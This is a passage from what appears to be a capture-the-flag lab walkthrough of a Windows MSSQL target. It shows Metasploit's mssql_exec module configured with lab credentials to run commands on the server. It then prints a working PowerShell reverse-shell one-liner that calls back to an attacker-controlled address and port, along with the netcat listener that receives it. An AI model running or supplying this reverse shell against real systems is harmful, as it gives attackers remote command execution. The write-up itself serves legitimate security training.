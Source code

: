 Let us use it (`msf6 > use 31`) and setup the exploit parameters:

```shell-session
msf6 > set PASSWORD M3g4c0rp123
PASSWORD => M3g4c0rp123
msf6 > set USERNAME sql_svc
USERNAME => sql_svc
msf6 > set RHOSTS 10.10.10.27
RHOSTS => 10.10.10.27
msf6 > set USE_WINDOWS_AUTHENT true
USE_WINDOWS_AUTHENT => true
msf6 > set DOMAIN ARCHETYPE
DOMAIN => ARCHETYPE
msf6 > use auxiliary/admin/mssql/mssql_exec
msf6 auxiliary(admin/mssql/mssql_exec) > show options

Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   CMD                  cmd.exe /c echo OWNED  no        Command to execute
                         > C:\owned.exe
   PASSWORD             M3g4c0rp123            no        The password for the specified user
                                                         name
   RHOSTS               10.10.10.27            yes       The target host(s), range CIDR iden
                                                         tifier, or hosts file with syntax '
                                                         file:<path>'
   RPORT                1433                   yes       The target port (TCP)
   TDSENCRYPTION        false                  yes       Use TLS/SSL for TDS data "Force Enc
                                                         ryption"
   USERNAME             sql_svc                no        The username to authenticate as
   USE_WINDOWS_AUTHENT  true                   yes       Use windows authentification (requi
                                                         res DOMAIN option set)

msf6 auxiliary(admin/mssql/mssql_exec) > exploit
....
```

After running this command we easily check that the machine is exploitable, as we obtain an output from our command, so we can start our process of trying to obtain a shell access over there. Our reverse shell, that we will kindly name `lol.ps1`, taken from https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1, will contain a hit to our local netcat listener:

```
$sm=(New-Object Net.Sockets.TCPClient('10.10.14.167',4242)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

Let us as well fire up our `nc` listener on port `4242` so it can wait for connections from our reverse shell above:

```shell-session
$nc -lvnp 4242
listening on [any] 4242 ..
```
